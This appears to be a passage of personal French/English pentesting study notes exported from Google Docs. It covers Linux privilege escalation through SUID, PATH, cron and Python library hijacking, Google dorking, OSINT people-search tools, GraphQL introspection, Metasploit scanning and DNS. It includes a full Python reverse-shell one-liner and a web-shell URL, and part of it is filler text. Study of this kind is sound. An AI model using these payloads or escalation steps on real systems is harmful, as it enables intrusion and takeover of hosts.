<p id="gdcalert333" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image333.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert334">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* **4) Write your fake library like this :**


<p id="gdcalert334" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image334.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert335">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* **5) Then compile this fake library and execute the SUID program (en écrasant la librairie de base si possible ).**

**					gcc -shared -fPIC -o [ABSOLUTE_PATH.so] **


                **[ABSOLUTE_PATH.sc] **


* VIA Environment Variables :
    * **1) Search for some executable with SUID**

                **   enabled**

* **2) Run the command strings on that executable to see if there is something executed that uses Environment Variables “shortcut” ( $PATH ).**

                    **Example : “service apache2 start “.The program service is using the environment variable $PATH to be found without absolute path.**

* **4) Write your own payloads ( In this example, this is a fake “service” program ) that will be executed instead of the real service program.**


<p id="gdcalert335" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image335.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert336">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert336" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image336.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert337">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* **5) Put your payload directory at the first position in PATH environment variable :**


<p id="gdcalert337" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image337.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert338">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* **6) Run the SUID program.**

**				Another way to perform this : **

****

<p id="gdcalert338" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image338.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert339">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* **Vérifier si des fichiers exécutés de façon récurrente ( avec CRON ) sont disponible et modifiable. On pourrait les remplacer par un autre fichier ( ayant le même nom ) pour invoquer un shell ou autre …**
* **Si les commandes nano,cp .. ( commande d'écriture ) sont utilisables en mode SUID-bit, on peut l’utiliser pour créer un nouveau user dans le fichier /etc/passwd avec les droits root et se connecter dessus :**


<p id="gdcalert339" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image339.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert340">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert340" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image340.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert341">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert341" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image341.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert342">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* Exploiting SUID permission in cpulimit command :

    

<p id="gdcalert342" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image342.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert343">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**		entre temps : cd /ignite/**


* RCE through mysql command on a writeable directory :


<p id="gdcalert343" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image343.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert344">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**URL ( in the context of the screenshot ) : 	[http://192.168.1.167:8080/raj.php?cmd=id](http://192.168.1.167:8080/raj.php?cmd=id)**


* Lxd Privilege Escalation

**	LXD est un logiciel libre développé par Canonical pour simplifier la**


    **manipulation de conteneurs de logiciels ( comme Docker ) à la manière  d'un hyperviseur de VM.**


    **Il a l'avantage d'être beaucoup plus léger qu'une machine virtuelle classique, car il ne virtualise pas un OS complet mais partage de nombreuses ressources avec l'OS hôte. On parle d'environnements virtuels**

**LXD has a root process that carries out actions for anyone with write**

**access to the LXD UNIX socket.**


    **A member of the local “lxd” group can sometimes instantly escalate the privileges to root on the host operating system. This is irrespective of whether that user has been granted sudo rights and does not require them to enter their password.**

**For more detail:**

**[https://www.hackingarticles.in/lxd-privilege-escalation/](https://www.hackingarticles.in/lxd-privilege-escalation/)**


* Python Library Hijacking


### Method 1 : From Bad Write Permission


* Prérequis :
    * SUDO ou SUID sur un fichier python à exécuter. 
    * Une lib est importé dans ce fichier
    * Accès en écriture sur cette lib.
* Exploitation :
    * Modifier la lib et injecter un Reverse shell en python dans le code :


```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```


### Method 2 : Priority Order


* Prérequis :
    * SUDO ou SUID sur un fichier python à exécuter. 
    * Une lib est importée dans ce fichier.
    * Accès en écriture sur le dossier ou se trouve ce fichier.
* Exploitation :
    * Créer un fichier python avec le même nom que la lib importée dans le même dossier sur le fichier python vulnérable ( il va être pris en compte en priorité dans l’importation des lib ).
    * Écrire un Revers shell en python dans ce nouveau fichier.


### Method 3 : PYTHONPATH Environment Variable

Théorie : This vulnerability is based on the Python Library that is searching through the Python PATH Environment Variable. This variable holds a list of directories where the python searches for the different directories for the imported modules. If an attacker can change or modify that variable then they can use it to elevate privileges on the target machine.


* Prérequis :
    * SUDO ou SUID sur un fichier python à exécuter. 
    * Une lib est importée dans ce fichier.
    * Pouvoir faire des changements dans la variable d’env PYTHONPATH.
* Exploitation :


<p id="gdcalert344" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image344.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert345">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert345" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image345.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert346">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert346" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image346.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert347">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


19. **Gathering information**
* **With Search Engines to gather information, you can find about the target:**
    * **Sensitive files and folders**
    * **Username, password, email,..**
    * **Server or system vulnerabilities**
    * **Login pages**
* **Google Dorking ( or hacking ) : Computer hacking technique that uses Google innate abilities to find security holes in the configuration and computer code that websites use. **
* **queries database : _[https://www.exploit-db.com/google-hacking-database](https://www.exploit-db.com/google-hacking-database)_**
* **Example Google Dork instruction :**

<table>
  <tr>
   <td>
<strong>filetype:pdf anonymat</strong>
   </td>
   <td><strong>Retournera les documents PDF</strong>
<p>
<strong>contenant le mot anonymat.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>site:funinformatique.com VPN</strong>
   </td>
   <td><strong>Trouvera toutes les pages contenant</strong>
<p>
<strong>le mot <a href="https://www.funinformatique.com/cest-quoi-vpn-bien-lutiliser/">VPN</a> dans leur texte et se trouvant dans le</strong>
<p>
<strong>domaine funinformatique.com</strong>
   </td>
  </tr>
  <tr>
   <td><strong>inurl:VPN</strong>
   </td>
   <td><strong>Trouvera les pages contenant le mot VPN dans l’adresse URL</strong>
   </td>
  </tr>
  <tr>
   <td><strong>intitle:VPN</strong>
   </td>
   <td><strong>Specifying intitle, will tell google to show only those pages that have the term in their html title</strong>
   </td>
  </tr>
  <tr>
   <td><strong>filetype</strong>
   </td>
   <td><strong>Searches for specific file types. filetype:pdf will looks for pdf files in websites. Similarly filetype:txt looks for files with extension .txt</strong>
   </td>
  </tr>
  <tr>
   <td><strong>ext</strong>
   </td>
   <td><strong>Similar to filetype.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>intext</strong>
   </td>
   <td><strong>Searches the content of the page. Somewhat like a plain google search.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>allintext:username filetype:log</strong>
   </td>
   <td><strong>Search file with log extension that contains “username”(on the body page).</strong>
   </td>
  </tr>
  <tr>
   <td><strong>“search term”</strong>
   </td>
   <td><strong>Force an exact-match search ( accolade )</strong>
   </td>
  </tr>
  <tr>
   <td><strong>jobs OR gates OU</strong>
<p>
<strong>jobs | gates</strong>
   </td>
   <td><strong>The pipe (|) operator can also be used in place of “OR.”</strong>
   </td>
  </tr>
  <tr>
   <td><strong>jobs AND gates</strong>
   </td>
   <td><strong>Search for X and Y.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>jobs ‑apple</strong>
   </td>
   <td><strong>The character “-” Exclude a term or phrase. In our example, any pages returned will be related to jobs but not Apple (the company).</strong>
   </td>
  </tr>
  <tr>
   <td><strong>steve * apple </strong>
   </td>
   <td><strong>“ * ” : Acts as a wildcard and will match any word or phrase.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>(ipad OR iphone) apple</strong>
   </td>
   <td><strong>“( )” : Group multiple terms or search operators to control how the search is executed.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>define:entrepreneur</strong>
   </td>
   <td><strong>This will display the meaning of a word</strong>
   </td>
  </tr>
  <tr>
   <td><strong>cache:apple.com</strong>
   </td>
   <td><strong>Returns the most recent cached version of a web page</strong>
   </td>
  </tr>
  <tr>
   <td><strong>apple AROUND(4) iphone</strong>
   </td>
   <td><strong> For this example, the words “apple” and “iphone” must be present in the content and no further than four words apart.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>map:silicon valley</strong>
   </td>
   <td><strong>Force Google to show map results for a locational search.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>$329 in GBP</strong>
   </td>
   <td><strong>Convert one unit to another. Works with currencies, weights, temperatures, etc.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>wwdc video 2010..2014</strong>
   </td>
   <td><strong>Search for a range of numbers. </strong>
<p>
<strong>In the example below, searches related to “WWDC videos” are returned for the years 2010–2014, but not for 2015 and beyond.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>steve jobs daterange:11278-13278</strong>
   </td>
   <td><strong>Find results from a certain date range. Uses the <em>Julian date</em> format, for some reason</strong>
   </td>
  </tr>
  <tr>
   <td><strong>site:*.*.microsoft.com ext:php</strong>
   </td>
   <td><strong>find subdomains on microsoft</strong>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
</table>


* **Shodan almost do the same but in more high range: Shodan search on “internet” et Google dorking search on” World Wide Web”. You can filter your research by country , port, Os system,...**
* **people's search engine : **
    * **checkusernames.com (pseudo research in S.network).**
    * **[https://webmii.com](https://webmii.com) ( by first and last name )**
    * **….**
* **WayBackMachine : To find Web Archives.**
* **FOCA ( On Windows ): Fingerprinting Organisations which Collected Metadata Archives ( of a website).**
* **Google Alert :**

**			Alert a person when a new content about a “string **


        **character” is pop on the web.**


20. Format ELF

## 
                       Section in ELF


<table>
  <tr>
   <td>
<strong>.data</strong>
   </td>
   <td><strong>Données initialisées déclarées</strong>
   </td>
  </tr>
  <tr>
   <td><strong>.rodata</strong>
   </td>
   <td><strong>Données initialisées déclarées en lecture seule</strong>
   </td>
  </tr>
  <tr>
   <td><strong>.bss</strong>
   </td>
   <td><strong>Données non initialisées déclarées</strong>
   </td>
  </tr>
  <tr>
   <td><strong>.plt</strong>
   </td>
   <td><strong>Procedure Linkage Table. Cette section regroupe l’ensemble des fonctions que nous voulons "importer" de bibliothèques partagées. </strong>
<p>
<strong>Par exemple, un programme compilé avec les options par défaut sous gcc et utilisant l’appel printf va stocker dans la section .plt l’adresse de la fonction printf, elle-même véritablement localisée dans la bibliothèque partagée libc.so.6.</strong>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
</table>


## Environnement d'exécution :


<p id="gdcalert347" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image347.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert348">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* **_Il se peut que les sections n'aient pas les mêmes adresses (mesure de sécurité)._**

                **Plus de précision :**


<p id="gdcalert348" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image348.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert349">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert349" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image349.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert350">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert350" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image350.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert351">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* **The Program Headers (among other functions) are more often for telling the memory loader where to put stuff.**
21. Python
* MISC
* **Python3 makes the distinction between bytes and str, when converting a printable string to bytes, the method .encode() is used. But this method crashes when trying to convert non-printable characters like \xFF.**
22. OSINT


##           Useful tools


<table>
  <tr>
   <td><strong>20minutemail</strong>
   </td>
   <td><strong>Create temporary email</strong>
   </td>
  </tr>
  <tr>
   <td><strong>KeePass</strong>
   </td>
   <td><strong>Generator and keeper good password</strong>
   </td>
  </tr>
  <tr>
   <td><strong>cryptomator</strong>
   </td>
   <td><strong>Encrypt file</strong>
   </td>
  </tr>
  <tr>
   <td><strong>Onionshare</strong>
   </td>
   <td><strong>Share file over the Tor network ( for being anonymous ) like “Pastebin” for file.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>PIC2Map.com</strong>
   </td>
   <td><strong>Géolocalisation de photo extérieur.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>beenverified.com</strong>
   </td>
   <td><strong>Reverse email search</strong>
   </td>
  </tr>
  <tr>
   <td><strong><a href="https://www.spydialer.com/">https://www.spydialer.com/</a></strong>
<p>
<strong>411.com</strong>
   </td>
   <td><strong>reverse phone number</strong>
   </td>
  </tr>
  <tr>
   <td rowspan="2" ><strong>Bing browser</strong>
<p>
<strong>Yandex browser</strong>
   </td>
   <td rowspan="2" ><strong>There is also reverse image tool in bing</strong>
<p>
<strong>Yandex is Better than google to search about persons</strong>
   </td>
  </tr>
  <tr>
  </tr>
  <tr>
   <td><strong>Tineye.com</strong>
   </td>
   <td><strong>reverse image search</strong>
   </td>
  </tr>
  <tr>
   <td><strong>searchyellowdirectory.com</strong>
<p>
<strong>comfi.com/abook/reverse</strong>
   </td>
   <td><strong>Reverse phone lookup in all over the world</strong>
   </td>
  </tr>
  <tr>
   <td><strong>Blackbookonline.com</strong>
   </td>
   <td><strong>US Public record online ( plenty type of information about a person)</strong>
   </td>
  </tr>
  <tr>
   <td><strong>xlek.com</strong>
   </td>
   <td><strong>free public data search ( US tool )</strong>
   </td>
  </tr>
  <tr>
   <td><strong>dehashed.com</strong>
<p>
<strong>haveibeenpwned.com</strong>
   </td>
   <td><strong>Data breaches reporting ( password leaked, email leaked, …)</strong>
   </td>
  </tr>
  <tr>
   <td><strong>webmii</strong>
   </td>
   <td><strong>Search on people in particular</strong>
   </td>
  </tr>
  <tr>
   <td><strong>Spiderfoot</strong>
   </td>
   <td><strong>Web site scanner</strong>
   </td>
  </tr>
  <tr>
   <td><strong>HTTrack</strong>
   </td>
   <td><strong>Website copier ( and then expose the copie on port 8080 )</strong>
   </td>
  </tr>
  <tr>
   <td><strong>metagoofil</strong>
   </td>
   <td><strong>Download all document from a URL</strong>
   </td>
  </tr>
  <tr>
   <td><strong>wayback.archive.org</strong>
<p>
<strong>Resurrect pages ( plugin on firefox )</strong>
   </td>
   <td><strong>Très bon outils pour retrouver des informations supprimé all over the internet ( social media, …)</strong>
   </td>
  </tr>
  <tr>
   <td><strong>datafakegenerator.com</strong>
   </td>
   <td><strong>Nom très explicite</strong>
   </td>
  </tr>
  <tr>
   <td><strong>tinfoleak</strong>
   </td>
   <td><strong> get detailed info about a Twitter user.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>intelTechniques</strong>
   </td>
   <td><strong>Provide huge amount of information from a Facebook ID</strong>
   </td>
  </tr>
  <tr>
   <td><strong>https://osintframework.com</strong>
   </td>
   <td><strong>provide plenty of source and framework about Osint</strong>
   </td>
  </tr>
  <tr>
   <td><strong>https://intelx.io/signup</strong>
   </td>
   <td><strong>Effectue plusieurs actions par rapport à l’OSint.</strong>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
</table>


23. Metasploit
* Autoroute exploit :

    **Metasploit has an autoroute exploit that can route the network in such a way that internal IP is accessible from outside by adding a route to an internal network. **


    **Autoroute will create a new host to connect with whose traffic will be redirected to the internal service. **


    **But, Autoroute doesn’t tell us the IP Address of the new host.**


    **Example :**


<p id="gdcalert351" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image351.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert352">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert352" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image352.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert353">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* Ping sweep :

**	Scan addresses of a network**

**	Example :**

**	**

<p id="gdcalert353" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image353.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert354">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* auxiliary tcp port scanner :

**	Port Scanner**

**	Example :**

**	**

<p id="gdcalert354" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image354.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert355">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


24. GraphQL
* Definiton

**Selon la définition officielle, GraphQL est un langage de requêtes pour API ainsi qu’un environnement pour exécuter ces requêtes.**


<p id="gdcalert355" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image355.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert356">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**Unlike REST APIs (where the client first interacts with arbitrary code written by programmer(s) and this code reaches the database); the client first interacts with GraphQL, which in turn interacts with arbitrary code and ultimately ends talking to the database.**


<p id="gdcalert356" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image356.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert357">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**This change in the architecture has a lot of advantages tied to it, for example it’s possible to get all the data the client needs in a single request (whereas REST APIs need to perform multiple requests).**


* Common GraphQL endpoint :
* **/graphql/**
* **/graphql/console/**
* **/graphql.php**
* **/graphiql/**
* **/graphiql.php**
* GraphQL injection :

**Cette injection permet de récupérer des infos dans la base de données.**

**	Etapes :**


* **Trouver un endpoints utilisant les GraphQL**
* **Find the schema ( for mutation et query ) in order to know how to talk to it ( What GraphQL object it interacts with ).**

        **Useful tools for this :**


<p id="gdcalert357" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image357.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert358">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* Useful Introspection query

<table>
  <tr>
   <td>
<strong>query{</strong>
<p>
<strong>  __schema{</strong>
<p>
<strong>       types{</strong>
<p>
<strong>         name</strong>
<p>
<strong>       }</strong>
<p>
<strong>  }</strong>
<p>
<strong>}</strong>
   </td>
   <td><strong>Affiché le noms des tables de la base de donnée</strong>
   </td>
  </tr>
  <tr>
   <td><strong>query{</strong>
<p>
<strong>  __type(name: “[NAME_OF_TABLE/TYPE]”){</strong>
<p>
<strong>       fields{</strong>
<p>
<strong>         name</strong>
<p>
<strong>       }</strong>
<p>
<strong>  }</strong>
<p>
<strong>}</strong>
<p>
<strong>“</strong>
   </td>
   <td><strong>Affiche les “colonnes” d’une table de la base de donnée</strong>
<p>
<strong>Autrement dit : Affiche les champs d’un type.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>query{</strong>
<p>
<strong>  __schema{</strong>
<p>
<strong>       queryType{</strong>
<p>
<strong>         fields{</strong>
<p>
<strong>           name</strong>
<p>
<strong>           args{name,defaultValue}</strong>
<p>
<strong>         }</strong>
<p>
<strong>       }</strong>
<p>
<strong>  }</strong>
<p>
<strong>}</strong>
   </td>
   <td><strong>Affiche toutes les opérations autorisés.</strong>
<p>
<strong>Une opération est une forme de requête dont la syntaxe est déjà spécifié.</strong>
<p>
<strong>Toutes les opérations ont un nom.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>query{__schema{mutationType{fields{name,args{name,defaultValue}}}}}</strong>
   </td>
   <td><strong>Affiche toutes les mutations disponibles.</strong>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
</table>


**The introspection query should only be allowed internally and should not be allowed to the general public.**


* MISC
* **Try SQLi from GraphQL request.**
25. Bash
* MISC


<p id="gdcalert358" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image358.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert359">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* **Actually, when looking for vulnerabilities in shell code, the first thing to do is look for unquoted variables. It's easy to spot, often a good candidate, generally easy to track back to attacker-controlled data. There's an infinite number of ways an unquoted variable can turn into a vulnerability.**


<p id="gdcalert359" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image359.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert360">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


26. Ruby-On-Rails
* MISC


<p id="gdcalert360" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image360.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert361">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert361" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image361.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert362">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert362" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image362.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert363">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* Bad regular expression :

    

<p id="gdcalert363" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image363.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert364">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


    In this code, we can inject CRLF characters to inject commands. We have to replace this characters :


     

<p id="gdcalert364" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image364.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert365">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* 
27. PowerShell
* Definition

**PowerShell, ou Windows PowerShell, anciennement Microsoft Command Shell (MSH), est une suite logicielle développée par Microsoft qui intègre une interface en ligne de commande, un langage de script nommé PowerShell ainsi qu’un kit de développement.**

**PowerShell est un langage de script fondé sur la programmation orientée objet.**


28. Others


<p id="gdcalert365" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image365.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert366">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert366" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image366.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert367">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* Recovering saved macOS user passwords

    **Users who have (inadvisedly) enabled automatic login often forget the password. It is merely encoded with an XOR cipher and stored in/etc/kcpassword.**


    **To recover this password :**


<p id="gdcalert367" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image367.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert368">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* Mass assignment

**L'attribution de masse est une vulnérabilité informatique dans laquelle un modèle d'enregistrement actif dans une application Web est utilisé de manière abusive pour modifier des éléments de données ( ajout de paramètres GET ou POST oubliés ou mal gérés par exemple ).**


## Tunneling with Chisel :


<p id="gdcalert368" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image368.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert369">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


29. Active Directory

**qsfsdfqfdsf**

**fqsdfqsdf**

**sqdfsqfqsdf**


30. DNS


## Différents Commands


<table>
  <tr>
   <td>

<p id="gdcalert369" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image369.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert370">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


   </td>
   <td>
<ul>

<li><strong>dig MX witrapper.com : retrieve MX record on the DNS SERVER witrapper.com</strong>
<ul>

<li><strong>The second and third command are the same.</strong>
<ul>

<li><strong>PTR is a reverse lookup ( IP => domain name )</strong>
</li>
</ul>
</li>
</ul>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>

<p id="gdcalert370" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image370.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert371">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


   </td>
   <td>
<ul>

<li><strong>dig @&lt;nameserver> &lt;domain name> :</strong>
    <strong>Search information about the &lt;domain name> in the DNS server &lt;nameserver></strong>
</li>
</ul>
   </td>
  </tr>
  <tr>
   <td>

